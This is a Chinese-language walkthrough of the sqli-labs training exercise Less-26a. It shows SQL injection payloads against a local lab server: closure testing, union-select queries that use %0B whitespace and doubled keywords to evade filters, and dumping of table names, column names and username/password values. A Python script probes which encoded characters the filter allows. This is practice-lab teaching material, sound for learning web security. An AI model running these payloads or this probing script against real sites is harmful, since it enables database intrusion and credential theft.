 ```yaml
---
title: Less - 26a
date: 2023-03-16T12:51:58Z
lastmod: 2023-03-16T15:00:09Z
---
```


# Less - 26a

---

# 通关教程

---

## 1、判断闭合

---

```bash
?id=1''
```

​![image](assets/image-20230316125551-bllpdng.png)​

---

```bash
?id=1')
```

​![image](assets/image-20230316125653-hqsxnqp.png)​

```bash
?id=1') || ('1
```

​![image](assets/image-20230316125720-zdx0rfu.png)​

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-26a/?id=0')%0Bunion%0Bselect%0B1,database(),3%0B||('1')=('1
```

​​![image](assets/image-20230316132102-ytoo97z.png)​​

---

## 3、查看数据表

---

```bash
http://192.168.225.132/sqli-labs/Less-26a/? id=0')%0bunion%0bselect%0b1,group_concat(table_name),3%0bfrom%0binfoorrmation_schema.tables%0bwhere%0btable_schema='security'%26%261=('1
```

​![image](assets/image-20230316132316-4fzo897.png)​

---

## 4、查看字段名

---

```bash
http://192.168.225.132/sqli-labs/Less-26a/? id=0')%0bunion%0bselect%0b1,group_concat(column_name),3%0bfrom%0binfoorrmation_schema.columns%0bwhere%0btable_schema='security'%0baandnd%0btable_name='users'%26%261=('1
```

​![image](assets/image-20230316132609-k763rx5.png)​

---

## 5、查看字段值

---

```bash
http://192.168.225.132/sqli-labs/Less-26a/? id=0')%0bunion%0bselect%0b1,group_concat(passwoorrd,0x7e,username),3%0bfrom%0busers%0bwhere%0b1=('1
```

​![image](assets/image-20230316132702-jopirjk.png)​

---

## 6、使用脚本判断哪些字符能用

---

```python
# -*- encoding: utf-8 -*-
import requests

for i in range(0, 256):
    # print(i)
    code = hex(i).replace('0x', '')
    if len(code) < 2:
        code = "0" + code
    code_0x = "%" + code
    # print(code_0x)
    url = "http://192.168.225.132/sqli-labs/Less-26/?id=1'" + code_0x + "%26%26" + code_0x + "'1'='1"
    r = requests.get(url=url)
    if "Dumb" in r.content.decode("utf-8", "ignore"):
        print(code_0x)
```

​![image](assets/image-20230316150007-5r55y1t.png)​

‍

